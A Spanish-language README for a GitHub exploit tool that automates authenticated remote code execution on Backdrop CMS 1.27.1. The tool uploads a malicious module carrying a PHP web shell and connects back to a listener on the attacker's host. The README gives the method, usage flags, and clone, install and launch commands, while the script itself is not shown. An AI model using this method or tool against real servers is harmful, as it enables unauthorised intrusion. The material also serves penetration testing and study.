# Backdrop CMS 1.27.1 - Automated Authenticated RCE

Este [script](<autoDropRCE.py>) permite obtener acceso de forma automatizada a la máquina víctima sobre una instalación vulnerable de **Backdrop CMS 1.27.1**. La vulnerabilidad explotada radica en la gestión de módulos, donde el atacante puede subir e instalar un módulo malicioso en el sistema.

Las opciones disponibles son las siguientes:

```ps
usage: autoDropRCE.py [-h] -t TARGET_URL -h-ip HOST_IP -u USERNAME -p PASSWORD [-l PORT]

🪂 Backdrop CMS 1.27.1 - Automated Authenticated RCE 🪂

   ej: python3 autoDropRCE.py -t http://backdrop-example.com -i 172.17.0.1 -u trr0r -p trr0r

options:
  -h, --help                   show this help message and exit
  -t, --target-url TARGET_URL  Target url Backdrop web - ej: http://backdrop-example.com
  -h-ip, --host-ip HOST_IP     Host IP - ej: 172.17.0.1
  -u, --username   USERNAME    Valid Backdrop username - ej: trr0r
  -p, --password   PASSWORD    Valid Backdrop password - ej: trr0r
   
  -l, --listen-port PORT       Listen port                                               (default = 4444)
```

___
## Descripción de la Vulnerabilidad 📜

En el gestor de contenidos **Backdrop** (**1.27.1**) un atacante puede subir módulos maliciosos al sistema. Esto se debe a una debilidad en la forma en que **Backdrop** maneja la carga de módulos a través del **instalador manual de módulos**, lo que facilita la ejecución remota de comandos (**RCE**).
### 1. Módulo Malicioso:

El atacante debe de crear un módulo `.tar` que contenga:
- Un archivo `.php` con código malicioso, como una **web shell**, que permita ejecutar comandos de manera remota (**RCE**).
- Un archivo `.info` que describa el módulo para que así sea registrado como un módulo válido para el sistema **Backdrop CMS**.
### 2. Subida del Módulo:

Para aprovechar esta vulnerabilidad, el atacante necesita autenticarse en **Backdrop CMS**. Una vez autenticado, y si tiene los permisos adecuados, podrá cargar e instalar un módulo malicioso. Este módulo, al ser instalado en el sistema, permitirá al atacante ejecutar comandos de manera remota en el servidor (RCE).

___
## Descarga 📥

Nos clonamos el repositorio de la siguiente forma:

```bash
git clone https://github.com/trr0r/autoDropRCE
cd autoDropRCE
```

Instalamos las librerías necesarias gracias a `pip3`:

```bash
pip3 install -r requirements.txt
```

___
## Uso ⚙️

Una vez que tengas los datos listos, puedes ejecutar el script con el siguiente comando:

```bash
python3 autoDropRCE.py -t http://backdrop-example.com -h-ip 172.17.0.1 -u trr0r -p trr0r
```

![Image](https://github.com/user-attachments/assets/d654ae24-a00d-46d6-9127-facdb019c326)

---
### Advertencia legal ⚠️

> [!WARNING]
Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
